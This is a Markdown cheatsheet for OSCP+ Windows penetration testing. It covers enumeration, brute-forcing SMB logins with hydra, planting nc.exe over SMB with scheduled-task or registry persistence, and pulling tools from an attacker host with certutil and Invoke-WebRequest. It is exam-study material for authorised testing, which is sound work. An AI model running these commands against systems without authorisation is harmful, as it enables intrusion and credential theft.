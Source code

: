 # 🪟 OSCP+ Windows Standalone Cheatsheet

## 1. 🔍 Initial Enumeration (Before Exploit)

### 🔎 Nmap
```bash
nmap -sC -sV -Pn -p- <IP> -oN win_full.nmap
```

### 🔑 Common Ports
| Port | Service | Notes |
|------|---------|-------|
| 135  | RPC     | Use `rpcclient` |
| 139, 445 | SMB | Null sessions, shares |
| 3389 | RDP     | Brute-force weak creds |
| 5985 | WinRM   | PowerShell remoting |
| 496xx | High RPC ports | Seen in newer Windows |

### 🗂 SMB
```bash
smbclient -L \\\\<IP>\\ -N
smbclient \\\\<IP>\\share -N
enum4linux-ng -A <IP>
```

### 🧑‍💻 RPC
```bash
rpcclient -U "" <IP>
> enumdomusers
> queryuser RID
```

### 💻 WinRM
```bash
crackmapexec winrm <IP> -u user -p pass
```

---

## 2. 🧨 Initial Access / Exploitation

### 🔓 Exploits
- EternalBlue (MS17-010)
- RDP BlueKeep
- Web upload > RCE
- Weak passwords (SMB, WinRM)

```bash
hydra -l Administrator -P rockyou.txt smb://<IP>
```

### 📂 Upload via SMB
```bash
smbclient \\\\<IP>\\share
put nc.exe
```

Run using:
- `schtasks`
- `sc.exe`
- Registry run keys

---

## 3. 📈 Local Post-Exploitation

### 🧰 Tools
- `winPEASx64.exe`
- `whoami`, `net users`, `systeminfo`, etc.

### 🐚 Useful Commands
```powershell
whoami /priv
net user
net localgroup administrators
systeminfo
```

### 🔥 Upload Tools
```powershell
certutil -urlcache -f http://<IP>/winpeas.exe winpeas.exe
Invoke-WebRequest http://<IP>/nc.exe -OutFile nc.exe
```

---
